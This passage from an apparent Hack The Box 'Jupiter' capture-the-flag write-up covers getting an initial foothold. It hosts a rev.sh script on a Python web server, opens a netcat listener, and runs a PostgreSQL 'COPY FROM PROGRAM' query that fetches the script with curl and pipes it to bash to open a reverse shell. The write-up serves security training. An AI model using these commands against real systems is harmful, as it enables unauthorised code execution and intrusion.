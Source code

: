**2-** Start a python web server on port 80, which will serve the `rev.sh` file. <br/>
```bash
python3 -m http.server 80
```

**3-** Start a netcat listener on port 9999: <br/>
```bash
nc -nlvp 9999
```

**4-** Execute the following SQL query:

```sql
COPY cmd_exec FROM PROGRAM 'curl http://<tun0-IP>/rev.sh | bash';
```

**5-** Check your netcat listener: <br/>

<img src="https://raw.githubusercontent.com/YounesTasra-R4z3rSw0rd/YounesTasra-R4z3rSw0rd.github.io/main/assets/img/htb-jupiter/2023-10-18 16_01_52-KaliLinux - VMware Workstation 17 Player (Non-commercial use only).png" alt="">
<center><i>Initial Foothold</i></center>
<br/>

### **<strong><font color="MediumPurple">Inside the box</font></strong>**
#### **<strong><font color="DarkKhaki">Shell Stabilization</font></strong>**

The stabilization process can be seen in the figure below: <br/>
